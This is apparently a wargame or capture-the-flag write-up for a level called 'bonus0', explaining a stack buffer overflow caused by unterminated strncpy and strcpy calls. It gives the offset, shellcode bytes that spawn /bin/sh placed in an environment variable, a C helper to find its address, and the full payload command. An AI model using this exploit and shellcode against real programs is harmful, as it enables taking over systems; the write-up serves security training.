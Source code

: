 looking at the code (see source.c) we can see that the program is vulnerable to a buffer overflow attack (like always).
it copy stdin into a buffer of 20 char using strncpy(dest, src, 20), but if src is greater than 20 bytes it will not be \0 terminated,
it means strcpy will read input1 AND input2 into the buffer since input1 doesn't have a end.

the main buffer of 54 bytes will overflow:
input1(20) + input2(20) + space(1) + input2(20) = 61 bytes
we will find the offset to overflow using https://wiremask.eu/tools/buffer-overflow-pattern-generator/ and gdb.
the tools tells us the offset it at 9 bytes.
so we need to put the address of our shellcode at the 9th byte of input2, that will write over the return address of the stack frame.

we will put the shellcode (from https://shell-storm.org/shellcode/files/shellcode-906.html) into a environment variable:
`export code=$(python -c "print('\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80')")`

getting the address of the shellcode:

```c
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char **argv) {
  printf("%p\n", getenv(argv[1]));
}
```

`./a.out code` -> `0xbffff916`

4096 because of the read() syscall that read 4096 bytes from stdin for input1, so we fill it to go to the second read using a single file as input.
9 + 4 + 7 = 20
full payload:
`python -c "print 'i'*4095 + '\n' + 'i'*9 + '\x16\xf9\xff\xbf' + 'i'*7" > /tmp/a`
`cat /tmp/a - |./bonus0`
